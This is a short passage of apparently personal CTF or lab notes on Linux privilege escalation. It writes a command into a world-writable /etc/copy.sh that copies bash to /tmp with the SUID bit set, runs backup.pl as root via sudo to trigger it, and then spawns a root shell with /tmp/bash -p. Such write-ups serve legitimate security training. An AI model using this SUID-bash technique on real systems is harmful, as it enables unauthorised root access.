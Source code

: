 
---
- Contents of `backup.pl`:
	- ![[Pasted image 20250502153819.png]]
- We can modify `copy.sh`file:
```
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash;" > /etc/copy.sh
```
- Run the `backup.pl`file as `root`:
	- `sudo /usr/bin/perl /home/itguy/backup.pl`
	- ![[Pasted image 20250502154440.png]]
- `/tmp/bash -p`
	- ![[Pasted image 20250502154458.png]]
